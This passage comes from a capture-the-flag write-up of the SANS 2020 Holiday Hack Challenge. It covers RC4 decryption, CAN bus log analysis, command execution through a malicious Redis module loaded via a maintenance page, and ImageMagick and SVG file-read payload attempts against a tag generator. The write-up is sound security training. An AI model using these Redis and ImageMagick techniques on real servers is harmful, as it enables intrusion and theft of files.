        7FXjP1lyfKbyDK/MChyf36h7

    It's encrypted with an old algorithm that uses a key. We don't care about
    RFC 7465 up here! I leave it to the elves to determine which one!

`RFC 7465 <https://tools.ietf.org/html/rfc7465>`__ is the RFC prohibiting RC4
cipher suites. If Alice doesn't care about it, we can suppose that's what she
used.

For the encryption key, she apparently used Santa's favorite phrase. What could
it be?

    I can't believe the Splunk folks put it in their talk! 

If we head over to `Splunk's Dave Herald's talk on Adversary Emulation and
Automation <https://www.youtube.com/watch?v=RxVgEFt08kU>`__, we're told that
it's very important to :code:`Stay Frosty`:

.. image:: /images/sans-christmas-challenge-2020/splunk_talk_stay_frosty.png
    :alt: splunk_talk_stay_frosty.png
    :align: center

So this must be the encryption key. Let's whip up a little Python console to
decrypt the string:

.. code-block:: pycon
    :hl_lines: 7

    >>> from Crypto.Cipher import ARC4
    >>> import base64
    >>> encrypted_text = base64.b64decode('7FXjP1lyfKbyDK/MChyf36h7')
    >>> key = b'Stay Frosty'
    >>> cipher = ARC4.new(key)
    >>> cipher.decrypt(encrypted_text)
    b'The Lollipop Guild'

Santa was afraid that :code:`The Lollipop Guild` would try and attack
KringleCon this year.

Objective 7:
~~~~~~~~~~~~

Wunorse Openslae's Cranberry Pi Challenge
-----------------------------------------

.. code-block:: console

    Welcome to the CAN bus terminal challenge!
    In your home folder, there's a CAN bus capture from Santa's sleigh. Some of
    the data has been cleaned up, so don't worry - it isn't too noisy. What you
    will see is a record of the engine idling up and down. Also in the data are
    a LOCK signal, an UNLOCK signal, and one more LOCK. Can you find the UNLOCK?

    We'd like to encode another key mechanism.
    Find the decimal portion of the timestamp of the UNLOCK code in candump.log
    and submit it to ./runtoanswer!  (e.g., if the timestamp is 123456.112233,
    please submit 112233)

    elf@cfa26cf03772:~$ 

I don't know anything about CAN buses, so I headed over `Chris Elgee's
KringleCon talk <https://www.youtube.com/watch?v=96u-uHRBI0I>`__ on the
subject.

We can learn that CAN messages have a CAN ID, and data:

.. image:: /images/sans-christmas-challenge-2020/can_bus_message_format.png
    :alt: can_bus_message_format.png
    :align: center

Let's take a look at the `candump.log file </docs/sans-christmas-challenge-2020/candump.log>`__:

.. code-block:: console

    $ head candump.log 
    (1608926660.800530) vcan0 244#0000000116
    (1608926660.812774) vcan0 244#00000001D3
    (1608926660.826327) vcan0 244#00000001A6
    (1608926660.839338) vcan0 244#00000001A3
    (1608926660.852786) vcan0 244#00000001B4
    (1608926660.866754) vcan0 244#000000018E
    (1608926660.879825) vcan0 244#000000015F
    (1608926660.892934) vcan0 244#0000000103
    (1608926660.904816) vcan0 244#0000000181
    (1608926660.920799) vcan0 244#000000015F

The format of this log file seems to be:

::

    (timestamp) can_interface can_id#data

Since different message types have different CAN IDs, let's see how many
different CAN IDs we have:

.. code-block:: console
    :hl_lines: 4

    $ awk '{print $3}' < candump.log | cut -d'#' -f 1 | sort | uniq -c | sort -nr
       1331 244
         35 188
          3 19B

CAN ID :code:`19B` only appears three times. Could it match with our LOCK,
UNLOCK, LOCK sequence? Let's see the different messages with this ID:

.. code-block:: console
    :hl_lines: 3

    $ grep '19B#' candump.log
    (1608926664.626448) vcan0 19B#000000000000
    (1608926671.122520) vcan0 19B#00000F000000
    (1608926674.092148) vcan0 19B#000000000000

We get our three messages, where the first and last ones seem to be the same.
This seems to corroborate our hypothesis! So this second message should be
our UNLOCK sequence. Let's submit the decimal part of the timestamp:

.. code-block:: console

    $ elf@2f9d1e0b5c1f:~$ ./runtoanswer 
    There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of t
    he UNLOCK timestamp?
    (e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
    > 122520
    Your answer: 122520

    Checking....
    Your answer is correct!

Solve the Sleigh's CAN-D-BUS Problem
------------------------------------

We're told that Santa's Sleigh is behaving strangely, something to do with
the CAN bus messages. Let's take a look under the hood. Everything is
implemented via the `candbus.js source file <https://candbus.kringlecastle.com/static/candbus.js>`__.

We can see that the communication is done via web sockets:

.. code-block:: js

    // WS connector to CAN-D-bus
    if (location.protocol == 'https:'){
      var ws = new WebSocket('wss://' + document.domain + ':' + location.port + '/ws');
    }
    else {
      var ws = new WebSocket('ws://' + document.domain + ':' + location.port + '/ws');
    }

Let's spin up Burp to take a look at the web sockets communication. First of
all, we can see that we're receiving a constant stream of messages. Let's click
on the buttons of the interface to see what messages are being sent:

- Sliding the accelerator to 60:

::

    {"Type":"Controls","ABSSS":[60, 0, 0, 0, 0, 0, 0 ]}

- Sliding the brakes to 50:

::

    {"Type":"Controls","ABSSS":[0, 50, 0, 0, 0, 0, 0 ]}

- Sliding the steering wheel to -25:

::

    {"Type":"Controls","ABSSS":[0, 0, -25, 0, 0, 0, 0 ]}

- Pressing the "Start" button:

::

    {"Type":"Controls","ABSSS":[0, 0, 0, 1, 0, 0, 0 ]}

- Pressing the "Stop" button:

::

    {"Type":"Controls","ABSSS":[0, 0, 0, 0, 1, 0, 0 ]}

- Pressing the "Lock" button:

::

    {"Type":"Controls","ABSSS":[0, 0, 0, 0, 0, 1, 0 ]}

- Pressing the "Unlock" button:

::

    {"Type":"Controls","ABSSS":[0, 0, 0, 0, 0, 0, 1 ]}

Pretty straightforward. Now let's see what messages are received when we
perform the same actions.

Nothing happens if we set the accelerator to a non-zero value. We have to also
press the "Start" button. Then, we keep getting spammed with messages of the
form:

::

    {"Type":"CAN-D-bus","Message":"244#000000118b"}
    {"Type":"CAN-D-bus","Message":"244#00000011bc"}
    {"Type":"CAN-D-bus","Message":"244#00000011bd"}
    ...

Several messages with CAN id :code:`244`. Let's convert the data from hex to
decimal:

- 0x118b = 4491
- 0x11bc = 4540
- 0x11bd = 4541

It so happens that these values are closed to what we get on the speedometer:

.. image:: /images/sans-christmas-challenge-2020/sleigh_speedometer.png
    :alt: sleigh_speedometer.png
    :align: center

We can check in the candbus.js file that messages with CAN id :code:`244` are
indeed for speed:

.. code-block:: js

    if (messageIn.Message.slice(0, 3) == "244") { // update tachometer if this is a tach message
      moveTachNeedle(messageIn.Message.slice(4, 14));
    }

Pressing the "Stop" button sets the value back to 0:

::

    {"Type":"CAN-D-bus","Message":"244#0000000000"}

Now, let's check the steering. If we put it to a value of -26, we get spammed
with the following message:

::

    {"Type":"CAN-D-bus","Message":"019#FFFFFFE7"}
    {"Type":"CAN-D-bus","Message":"019#FFFFFFE8"}

We get a message with a CAN id of :code:`019` and data around 0xFFFFFFE7. If
may seem like a very large value, but it's actually a negative value in
`two's complement <https://en.wikipedia.org/wiki/Two%27s_complement>`__.
You can use `this website <https://www.omnicalculator.com/math/twos-complement>`__
to compute two's complement values. 0xFFFFFFE7 and 0xFFFFFFE8 are respectively
-25 and -24. Not exactly -26, I don't know why ¯\\_(ツ)_/¯ but apparently
close enough for the steering system.

Now, let's say we set the brakes value to 45, then we keep getting spammed with
messages of the form:

::

    {"Type":"CAN-D-bus","Message":"080#00002d"}

If we convert 0x2d to decimal, we get 45. So messages with CAN id :code:`080`
seem to be for the brakes value. However, we also see :code:`080` messages with
weird values:

::

    {"Type":"CAN-D-bus","Message":"080#FFFFF3"}
    {"Type":"CAN-D-bus","Message":"080#FFFFFD"}
    {"Type":"CAN-D-bus","Message":"080#FFFFFA"}
    ...

That's weird. We get negative values in two's complement. But the brake slider
only goes from 0 to 100, so we shouldn't get any negative values. So let's
filter them out, with filter:

- ID: :code:`080`. Operator: :code:`Less`. Criterion: :code:`000000000000`.

If we press the "Lock" button, we get the following message:

::

    {"Type":"CAN-D-bus","Message":"19B#000000000000"}

If we press the "Unlock" button, we get the following message:

::

    {"Type":"CAN-D-bus","Message":"19B#00000F000000"}

Hey, we recognize these messages from the Cranberry Pi challenge! So messages
with CAN id :code:`19B` are for locking/unlocking, depending on the data.
However, we also keep getting the following message with CAN id :code:`19B`:

::

   {"Type":"CAN-D-bus","Message":"19B#0000000F2057"} 

Now, that appears to be an incorrect message, so let's filter it out, with
filter:

- ID: :code:`19B`. Operator: :code:`Equals`. Criterion: :code:`0000000F2057`.

Aaaaand...

.. image:: /images/sans-christmas-challenge-2020/sleigh_defrosted.png
    :alt: sleigh_defrosted.png
    :align: center

Bingo, the sleigh is working again!

Objective 8:
~~~~~~~~~~~~

Holly Evergreen's Cranberry Pi challenge
----------------------------------------

.. code-block:: console

    We need your help!!

    The server stopped working, all that's left is the maintenance port.

    To access it, run:

    curl http://localhost/maintenance.php

    We're pretty sure the bug is in the index page. Can you somehow use the
    maintenance page to view the source code for the index page?
    player@cc495dc0187f:~$

Let's try and call the :code:`maintenance.php` page:

.. code-block:: console

    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php"


    ERROR: 'cmd' argument required (use commas to separate commands); eg:
    curl http://localhost/maintenance.php?cmd=help
    curl http://localhost/maintenance.php?cmd=mget,example1

Alright, let's try with :code:`cmd=help`:


.. code-block:: console
    :hl_lines: 2

    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=help"
    Running: redis-cli --raw -a '<password censored>' 'help'

    redis-cli 5.0.3
    To get help about Redis commands type:
          "help @<group>" to get a list of commands in <group>
          "help <command>" for help on <command>
          "help <tab>" to get a list of possible help topics
          "quit" to exit

    To set redis-cli preferences:
          ":set hints" enable online hints
          ":set nohints" disable online hints
    Set your preferences in ~/.redisclirc

The :code:`maintenance.php` page seems to just be a wrapper around
:code:`redis-cli`. I first tried to escape from the single-quotes, but the page
seems to properly escape special characters, such as single quotes or
backslashes.

So, we must make use of the available commands in :code:`redis-cli`. We can get
information, such as defined Redis keys (commands and arguments are separated
by commas):

.. code-block:: console
    :hl_lines: 13

    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=keys,*"
    Running: redis-cli --raw -a '<password censored>' 'keys' '*'

    example2
    example1
    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=get,example1"
    Running: redis-cli --raw -a '<password censored>' 'get' 'example1'

    The site is in maintenance mode
    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=get,example2"
    Running: redis-cli --raw -a '<password censored>' 'get' 'example2'

    We think there's a bug in index.php

We can also get the current configuration, with :code:`config get *`:

.. code-block:: console
    :hl_lines: 7

    player@18aea30ee15b:~$ curl 'http://localhost/maintenance.php?cmd=config,get,*'
    Running: redis-cli --raw -a '<password censored>' 'config' 'get' '*'

    dbfilename
    dump.rdb
    requirepass
    R3disp@ss
    ...

We can recover some fun stuff, but nothing that seems to help us in our quest!
I took a deeper dive in `Redis commands <https://redis.io/commands>`__, and
thought I had found my winning ticket with the `EVAL command <https://redis.io/commands/eval>`__.
It allows us to define a Lua script that will be executed by the Redis
instance. However, for security reasons, the Lua interpreter only loads a
subset of the Lua standard library. So no code execution, and no IO operations.

Fortunately, another command seems to allow us to execute arbitrary commands:
`MODULE LOAD <https://redis.io/commands/module-load>`__. We can give the path
to a dynamic library that will be loaded into the Redis process.

So, let's code a Redis module! I used `this introduction to Redis modules
<https://redis.io/topics/modules-intro>`__ and `this Redis labs blog post on
how to build a Redis module <https://redislabs.com/community/redis-modules-hub/how-to-build/>`__.

Here's the code I wrote, modified from the example in the intro to Redis
modules. To keep it simple, I just copy the :code:`/var/www/html/index.php`
to our home folder, and change the owner so that we can open it. To do so,
we'll only have to call the :code:`copyindex.perform` command via
:code:`redis-cli`.

.. code-block:: c
    :hl_lines: 6 7 19

    #include "redismodule.h"
    #include <stdlib.h>

    int CopyIndex_RedisCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc)
    {
        system("cp /var/www/html/index.php /home/player/index.php");
        system("chown player:player /home/player/index.php");

        return REDISMODULE_OK;
    }

    int RedisModule_OnLoad(RedisModuleCtx *ctx, RedisModuleString **argv, int argc)
    {
        if (RedisModule_Init(ctx,"copyindex",1,REDISMODULE_APIVER_1) == REDISMODULE_ERR)
        {
            return REDISMODULE_ERR;
        }

        if (RedisModule_CreateCommand(ctx, "copyindex.perform", CopyIndex_RedisCommand, "fast random", 0, 0, 0) == REDISMODULE_ERR)
        {
            return REDISMODULE_ERR;
        }

        return REDISMODULE_OK;
    }

I found the :code:`redismodule.h` via a DuckDuckGo search, on `this Github
project <https://github.com/wujunze/redis-module-panda/blob/master/redismodule.h>`__.

Now, how did I find the path to the :code:`index.php`? First of all, we saw
that the index page was named :code:`index.php` via the Redis key
:code:`example2`. How about the path? We can see that the webserver is Apache
by sending a malformed request:

.. code-block:: console
    :hl_lines: 10

    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd= "
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
    </body></html>

If we check the only enabled site configuration file, we can see that the
webroot is under :code:`/var/www/html`:

.. code-block:: console

    player@f5bd214e5c90:~$ grep DocumentRoot /etc/apache2/sites-enabled/000-default.conf 
            DocumentRoot /var/www/html

Now, let's compile our module and load into Redis:

.. code-block:: console
    :hl_lines: 6 11

    player@f5bd214e5c90:~$ gcc -fPIC -std=gnu99 -c -o module.o module.c
    player@f5bd214e5c90:~$ ld -o module.so module.o -shared -Bsymbolic -lc
    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=module,load,/home/player/module.so"
    Running: redis-cli --raw -a '<password censored>' 'module' 'load' '/home/player/module.so'

    OK
    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=module,list"
    Running: redis-cli --raw -a '<password censored>' 'module' 'list'

    name
    copyindex
    ver
    1

Our module was properly loaded. Let's call our method
:code:`copyindex.perform`:

.. code-block:: console
    :hl_lines: 4

    player@f5bd214e5c90:~$ curl "http://localhost/maintenance.php?cmd=copyindex.perform"
    ^C
    player@f5bd214e5c90:~$ ls -lh index.php 
    -rwx------ 1 player player 488 Dec 29 15:01 index.php
    player@f5bd214e5c90:~$ cat index.php 
    <?php

    # We found the bug!!
    #
    #         \   /
    #         .\-/.
    #     /\ ()   ()
    #       \/~---~\.-~^-.
    # .-~^-./   |   \---.
    #      {    |    }   \
    #    .-~\   |   /~-.
    #   /    \  A  /    \
    #         \/ \/
    # 

    echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
    ?>

The method hangs, and I have to stop the call with :code:`Ctrl+C`. However, the
code still worked, and we can get the content of :code:`index.php`.

We can use the same trick to recover the content of :code:`maintenance.php`:

.. code-block:: php
    :hl_lines: 9

    <?php
    $redis_password = "R3disp@ss";

    if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
        die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncurl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cmd=mget,example1\n\n");
    }

    # Pull apart the command, escape it, and put it back together
    $cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));

    if(strpos($cmd, 'scan') !== false) {
      die("'scan' is not allowed");
    }

    if(strpos($cmd, 'requirepass') !== false) {
      die("'requirepass' is not allowed");
    }

    $cmd = "redis-cli --raw -a '$redis_password' $cmd";

    echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";

    $result = shell_exec($cmd);

    echo $result;
    ?>

Broken Tag Generator
--------------------

Ooooooh boy. Each year, there's a least one objective where I go down a rabbit
hole that I can't get out of, even if the answer was smacking me in the face.
This year, it's the Broken Tag Generator.

The Tag Generator can be used to generate gift tags:

.. image:: /images/sans-christmas-challenge-2020/tag_generator_presentation.png
    :alt: tag_generator_presentation.png
    :align: center

You can select a template, add cliparts, text labels, and even upload you own
images. The goal is to recover the value of the :code:`GREETZ` environment
variable.

All the dead ends, yay!
.......................

As usual, I'll detail every dead end I took, to explain my thought process.
If you just want the right solution, you can just skip to `the next section <#the-right-solution>`__.

Obviously, the interesting functionality is the upload, because it can lead
to all sorts of trouble. So I started by uploading a text file:

.. code-block:: http

    POST /upload HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: */*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    X-Requested-With: XMLHttpRequest
    Content-Type: multipart/form-data; boundary=---------------------------26271296542925243330575575204
    Content-Length: 228
    Origin: https://tag-generator.kringlecastle.com
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

    -----------------------------26271296542925243330575575204
    Content-Disposition: form-data; name="my_file[]"; filename="test.txt"
    Content-Type: text/plain

    test

    -----------------------------26271296542925243330575575204--

.. code-block:: http

    HTTP/1.1 501 Not Implemented
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 13:48:05 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 129
    Connection: close
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    X-Frame-Options: SAMEORIGIN

    <h1>Something went wrong!</h1>
    <p>Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201230-1-1ghfubj.txt</p>

Several interesting things:

- The application seems to be coded in Ruby. We can guess that from the
  :code:`/app/lib/app.rb` file.
- The web server is an nginx 1.14.2, which is the version of nginx in `Debian
  Buster <https://packages.debian.org/buster/nginx>`__, the latest Debian
  stable version.

This means that any old Ruby, or Ruby on Rails, vulnerabilities shouldn't work.
I still tried some, like the `Dynamic Render File Upload <https://www.exploit-db.com/exploits/40561>`__
and the `Rails Doubletap RCE <https://github.com/mpgn/Rails-doubletap-RCE>`__,
but to no avail.

I then tried to upload valid image files, such as the SANS logo:

.. code-block:: http

    POST /upload HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: */*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    X-Requested-With: XMLHttpRequest
    Content-Type: multipart/form-data; boundary=---------------------------217713438141946588972652502718
    Content-Length: 2143
    Origin: https://tag-generator.kringlecastle.com
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

    -----------------------------217713438141946588972652502718
    Content-Disposition: form-data; name="my_file[]"; filename="sans_logo.png"
    Content-Type: image/png

    PNG[snip]

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 13:56:31 GMT
    Content-Type: application/json
    Content-Length: 44
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    ["eba003cc-5221-454e-87d7-ffc484d29872.png"]

This time, we get a filename, that we can use to download the image:

.. code-block:: http

    GET /image?id=eba003cc-5221-454e-87d7-ffc484d29872.png HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: image/webp,*/*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 13:56:32 GMT
    Content-Type: image/jpeg
    Content-Length: 1705
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    PNG[snip]

The behaviour of this download functionality is strange. For example, if we
had any number of leading forward slash, the file is still downloaded:

.. code-block:: http
    :hl_lines: 1

    GET /image?id=////eba003cc-5221-454e-87d7-ffc484d29872.png HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: image/webp,*/*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 13:58:45 GMT
    Content-Type: image/jpeg
    Content-Length: 1705
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    PNG[snip]

Also, any text after a :code:`;` seems to be ignored:

.. code-block:: http
    :hl_lines: 1

    GET /image?id=eba003cc-5221-454e-87d7-ffc484d29872.png;test HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: image/webp,*/*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 14:00:34 GMT
    Content-Type: image/jpeg
    Content-Length: 1705
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    PNG[snip]

All this behaviour points to an arbitrary file read. **And that's exactly what
it is!** *That's* the right solution! But is that the trail I decided to
folllow? Noooooo, of course not! Because I noticed that my original PNG file
had been *converted*, from an interlaced PNG to a non-interlaced PNG:

.. code-block:: console

    $ file sans_logo.png eba003cc-5221-454e-87d7-ffc484d29872.png 
    sans_logo.png:                            PNG image data, 122 x 62, 8-bit colormap, interlaced
    eba003cc-5221-454e-87d7-ffc484d29872.png: PNG image data, 122 x 62, 8-bit colormap, non-interlaced

I searched how an interlaced PNG is converted to a non-interlaced PNG, and
found `this StackOverflow post <https://stackoverflow.com/questions/19742548/how-to-de-interlace-png-files>`__
that says it can be done with *ImageMagick*. And then I could hear bells
ringing in my head. I thought I'd hit the jackpot.

Couple of years ago, `many vulnerabilities <https://imagetragick.com/>`__ had
been discovered in ImageMagick, allowing stuff from local file read, file
deletion, SSRF, or even RCE.

Even if the Debian version was recent, I thought that maybe a vulnerable
ImageMagick version had been installed on purpose.

So I tried the :code:`exploit.mvg` example given in the ImageTragick website
linked earlier:

::

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://my_super_duper_domain.com/image.jpg";|ls "-la)'
    pop graphic-context

I then tried to upload my :code:`exploit.mvg` file, but got that message:

::

    Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201230-1-hpltx4.mvg

Hmm, apparently our file is put in a temporary file with the same extension.
And the :code:`.mvg` does not seem to be supported. What about SVG files?

::

    Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201230-1-snhqi4.svg

Nope, same error. But then, I noticed that the :code:`convert` program from
ImageMagick performs image identification, whatever the extension of the
input file. So, if I create an SVG file with a :code:`.png` extension, it
should be accepted by the website, and still be treated as an SVG file by
:code:`convert`.

Let's upload a simple SVG file, with a :code:`.png` extension:

.. code-block:: http

    POST /upload HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: */*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    X-Requested-With: XMLHttpRequest
    Content-Type: multipart/form-data; boundary=---------------------------4039698011180393282902452814
    Content-Length: 423
    Origin: https://tag-generator.kringlecastle.com
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

    -----------------------------4039698011180393282902452814
    Content-Disposition: form-data; name="my_file[]"; filename="red_circle_svg.png"
    Content-Type: image/png

    <?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
    <circle cx="100" cy="100" r="88" fill="none" stroke="#fd0000" stroke-width="15"/>
    </svg>

    -----------------------------4039698011180393282902452814--

And it worked:

.. image:: /images/sans-christmas-challenge-2020/tag_generator_red_circle.png
    :alt: tag_generator_red_circle.png
    :align: center

So, we can force ImageMagick to process SVG files. SVG files are interesting
because you can reference outside files that should be included in the final
image, including text file. For example, the following SVG file will create
an image with the content of :code:`/etc/passwd` once converted:

.. code-block:: svg

    <svg width="600" height="600" xmlns:xlink="http://www.w3.org/1999/xlink" xmlns="http://www.w3.org/2000/svg">       
        <image href="text:/etc/passwd" height="500" width="500"/>
    </svg>

Here's an example on my Kali virtual machine:

.. code-block:: console

    $ convert etc_passwd.svg etc_passwd.png

.. image:: /images/sans-christmas-challenge-2020/etc_passwd.png
    :alt: etc_passwd.png
    :align: center

I submitted confidently my new payload on the server, and... nothing. The
website rendered a white PNG file. I thought that maybe the server was running
in a :code:`chroot`-ed environment, and that it didn't have access to
:code:`/etc/passwd`. So I tried with other files, such as,
:code:`/proc/self/environ`, or the Ruby file we discovered earlier,
:code:`/app/lib/app.rb`, but nothing worked.

I then thought that maybe, an SVG file was not the best format to carry my
payload. So I took a look at `the different formats that ImageMagick supports
<https://imagemagick.org/script/formats.php>`__ to see if one would suit my
plans better. There was the `MVG <https://imagemagick.org/script/magick-vector-graphics.php>`__
we tried earlier, but also the `MSL <https://imagemagick.org/script/conjure.php>`__
(or Magick Scripting Language) format, but nothing seemed to work...

I then found new attacks against ImageMagick, discovered by `Alex Inführ
<https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html>`__,
which can lead to remote code execution under special circumstances. However,
these techniques were published in November 2020, and since KringleCon
challenges are years in the making, it was pretty unlikely that this was the
method the organizers had in mind (I tried anyway, but it didn't work).

After that, I decided that maybe the ImageMagick trail wasn't the one to
follow. But, instead of backtracking to the local file include we mentioned
earlier, **I decided to search for yet another trail!**

The tag generator is coded in JavaScript, in the https://tag-generator.kringlecastle.com/js/app.js
file. By looking at the code, I saw that a sharing functionality was present,
even if no share button was rendered in the application:

.. code-block:: js

  $('.shareBtn').click(() => {
    const dataURL = canvas.toDataURL({
      width: canvas.width,
      height: canvas.height,
      left: 0,
      top: 0,
      format: 'png',
    });
    $.ajax({
      type: 'POST',
      url: '/save',
      dataType: 'json',
      contentType: 'application/json',
      data: JSON.stringify({ dataURL }),
      success: (res, status) => {
        if (res.id) {
          window.location = `/share?id=${res.id}`;
        }
      }
    });
  });

I thought I'd found my winning ticket **again**. So I forcefully called this
functionality from the JavaScript console, and interacted with the two new
endpoints, :code:`/save` and :code:`/share`. The first one sends a
base64-encoded PNG file:

.. code-block:: http

    POST /save HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 50668
    Origin: https://tag-generator.kringlecastle.com
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

    {"dataURL":"data:image/png;base64,iVBORw0KGgoAAAANSUhEU[snip]"}

The server responds with an id that we can use with the :code:`/share`
endpoint:

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 11:10:27 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 49
    Connection: close
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    X-Frame-Options: SAMEORIGIN
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    {"id":"4a707baab164e15f58d7365c70a480e1d624b253"}

.. code-block:: http

    GET /share?id=4a707baab164e15f58d7365c70a480e1d624b253 HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/
    Upgrade-Insecure-Requests: 1

.. code-block:: http
    :hl_lines: 21

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 11:10:28 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 1479
    Connection: close
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    X-Frame-Options: SAMEORIGIN
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    <!DOCTYPE html>
    <html>
    [snip]
    <body>
      <div class="parentElement">
        <img class="hero" src="/image?id=4a707baab164e15f58d7365c70a480e1d624b253.png" />
        <label for="copyUrl" class="share-label">Share URL: </label>
        <input class="copyUrl" value="%%currenturl%%" />
      </div>
      <script>
